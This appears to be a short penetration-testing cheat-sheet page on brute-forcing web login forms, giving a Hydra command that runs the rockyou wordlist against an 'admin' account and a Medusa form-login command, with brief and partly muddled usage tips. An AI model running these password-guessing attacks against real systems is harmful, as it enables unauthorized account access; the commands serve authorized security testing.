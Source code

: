 ```yaml
---
title: HTTP Form POST
parent: Web
layout: default
nav_order: 1
---
```


1. Hydra:\
   `hydra 10.11.0.22 http-form-post "/form/frontpage.php:user=admin&pass=^PASS^:INVALID LOGIN" -l admin -P /usr/share/seclists/rockyou.txt -vV -f`
   (change the user and pass parameter where appropriate. INVALID LOGON is the error message after incorrect password)
2. Medusa:\
   `medusa -h example.com -U usernames.txt -P passwords.txt -M http -m FORM:/login.php:username_field=password_field -t 5`\
   (Suitable for form login. Replace -u with -U if have wordlist. dir with the directory path to crack.)